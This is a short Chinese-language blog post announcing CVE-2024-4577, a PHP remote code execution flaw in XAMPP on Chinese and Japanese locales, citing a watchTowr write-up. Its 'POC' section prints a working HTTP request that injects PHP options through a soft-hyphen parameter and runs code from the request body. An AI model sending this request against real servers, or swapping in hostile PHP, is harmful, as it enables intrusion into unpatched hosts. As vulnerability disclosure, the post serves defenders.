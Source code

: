 #  【高危0day】PHP+XAMPP超高危漏洞，影响国区数万主机   
原创 AugustTheodor  重生之成为赛博女保安   2024-06-07 18:21  
  
又是摸鱼的一天，在群里吃瓜吹水的时候群U告诉我PHP出了个RCE，可吓人。  
## 漏洞范围  
  
XAMPP 中文/日语地区 PHP  
## 漏洞编号  
  
CVE-2024-4577  
## 漏洞状态  
  
刚刚曝出，按照外文资料发文时间应该是几个小时-十几个小时前  
> Orange Tsai tweeted a few hours ago about “One of [his] PHP vulnerabilities, which affects XAMPP by default”, and we were curious to say the least. XAMPP is a very popular way for administrators and developers to rapidly deploy Apache, PHP, and a bunch of other tools, and any bug that could give us RCE in its default installation sounds pretty tantalizing.  
  
  
> Orange Tsai几个小时前在推特上发布了关于“他的一个PHP漏洞，默认情况下会影响XAMPP”的消息，至少我们很好奇。XAMPP是管理员和开发人员快速部署Apache、PHP和一系列其他工具的一种非常流行的方式，任何可能在其默认安装中为我们提供RCE的错误听起来都非常诱人。  
  
  
## 漏洞POC  
> POST /test.php?%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input HTTP/1.1 Host: {{host}} User-Agent: curl/8.3.0 Accept:   
/ Content-Length: 23 Content-Type: application/x-www-form-urlencoded Connection: keep-alive  
  
<?php phpinfo(); ?>  
  
  
## 参考原文（英文资料）  
  
https://labs.watchtowr.com/no-way-php-strikes-again-cve-2024-4577/  
### 彩蛋  
  
今晚对很多站长而言不太友好呀，毕竟这么大范围的高危漏洞曝出只会导致：  
  
  
  
艾尔登扫哥，变身！  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/LN229gZh2CDY4putChNuKSFw07q5iczoicyzcZIXXOQw0H4U9lJWygKBlmR6nZASgoMWI6LpDbXzzmoaAElaezng/640?wx_fmt=jpeg&from=appmsg "")  
  
. . . * . *   
   
🌟   
 * . * . . .  
  
由于很多人问我微信群的事情，所以我建了一个小微信群。现在可以在公众号菜单里选择合作交流->交流群获取交流群二维码，希望大家和谐交流，为更好更友善的行业环境贡献自己的力量。  
  
